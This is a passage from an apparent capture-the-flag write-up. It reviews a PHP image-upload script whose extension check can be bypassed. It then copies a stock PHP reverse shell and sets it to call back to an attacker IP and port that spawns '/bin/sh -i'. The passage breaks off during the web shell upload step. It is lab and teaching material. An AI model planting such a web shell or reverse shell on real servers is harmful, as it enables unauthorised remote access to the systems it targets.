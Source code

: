 ```php
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>

```

upload.php reveals it could upload some file which type is `'.jpg', '.png', '.gif', '.jpeg'` ,  means that we could bypass it check functions to upload web shell.

### Exploitation

#### web shell upload 

let's copy our webshell to local folder.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

And we alter the LHOST and PORT:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.7';  // CHANGE THIS
$port = 3333;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
